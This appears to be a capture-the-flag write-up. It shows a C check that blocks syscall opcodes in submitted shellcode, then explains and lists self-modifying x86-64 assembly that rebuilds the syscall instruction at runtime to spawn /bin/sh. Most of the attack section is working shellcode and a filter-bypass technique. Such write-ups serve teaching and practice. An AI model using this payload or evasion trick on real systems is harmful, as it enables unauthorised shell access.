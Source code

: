 ```c
    for (int i = 0; i < shellcode_size; i++)
    {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
        {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }
```

The goal is to write shellcode that will call `/bin/sh` to give us a shell on the challenge server.
However, the three syscall instructions are being filtered, so we need to get around this restriction.

To solve, we can write self-modifying shellcode to bypass the filter.
We got this idea from a [comment](https://www.reddit.com/r/LiveOverflow/comments/14f0qel/syscall_instruction_not_allowed/jp2yszs/) by LiveOverflow.
Let's say we want to use the `syscall` instruction (0x05 0x0f), we can store 0x04 0x0e into some other register, increment those values by 1 at runtime which would give us 0x05 0x0f.
Then, we can jump to the register now containing (0x050f) to do a `syscall`.

We modified the shellcode from [here](https://shell-storm.org/shellcode/files/shellcode-806.html).

Shellcode:

```
bits 64

section .text
global _start

_start:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b

    jmp get_call_instr

code_after_call:
    pop rcx // rcx now has 0x0f, 0x04
    inc byte [rcx + 1]
    jmp rcx

get_call_instr:
    call code_after_call
syscall_bytes: // this instruction gets pushed onto the stack
    db 0x0f, 0x04
```
